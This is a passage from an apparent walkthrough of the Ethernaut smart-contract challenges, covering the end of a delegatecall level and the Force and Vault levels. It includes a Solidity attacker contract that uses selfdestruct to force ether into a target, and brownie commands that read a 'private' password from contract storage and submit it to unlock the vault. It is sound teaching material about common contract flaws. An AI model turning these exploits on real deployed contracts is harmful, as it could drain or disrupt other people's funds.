 Note that the names of the variables are irrelevant for `delegatecall` - so it's actually changing the storage slot of `owner`, which happens to be the same in both contracts here. The fact that they're both named 'owner' is irrelevant.

## 8. Force

For this level, we'll be taking a look at `selfdestruct`. Since there's no receive or payable fallback function here, you can't send ether to this contract, right? WRONG! 

When a contract executes a `selfdestruct`, it deletes its own bytecode and sends its ether balance to the specified destination address, which has to accept it even if it has no receive or fallback function.

We want to write and deploy our own contract:

    // SPDX-License-Identifier: MIT
    
    pragma solidity ^0.8.0;
    
    contract ForceAttacker{
      function kill(address payable instance) public payable{
        selfdestruct(instance);
      }
    }

Call your `kill` function with a `msg.value` greater than 0 to destroy this contract and send ether to the instance contract. Then submit the level.

## 9. Vault

To unlock the vault, we need the password. But the password is private, so we can't call contract.password() to get it. However, just because a variable is not publicly callable doesn't mean it isn't available. To get the password, we need to get into the contract's storage directly.

Storage in solidity is laid out in 32-byte slots. The vault contract's first storage variable is a bool type, which takes up 1 byte in storage. Multiple variables can fit in one slot as long as they add up to less than 32 bytes - but the next variable `password` is bytes32, i.e. it takes up 32 bytes, so it can't fit in slot 1 and is stored on its own in the next slot.

Using brownie console again, we can directly access storage:

    password = web3.eth.getStorageAt(instance, 1) #slot 1 is the second slot since it's indexed from 0
    
    #encode and call unlock
    import eth_abi
    selector = web3.keccak(text='unlock(bytes32)')[:4].hex()
    args = eth_abi.encode_single('(bytes32)',[password]).hex()
    payload = selector + args
    player.transfer(to=instance,data=payload)
    
You can check that you've been successful by getting storage at slot 0:

    web3.eth.getStorageAt(instance, 0)
    
If it returns a hex string of all zeros, you know that `locked` is now false, and you can successfully submit the level!
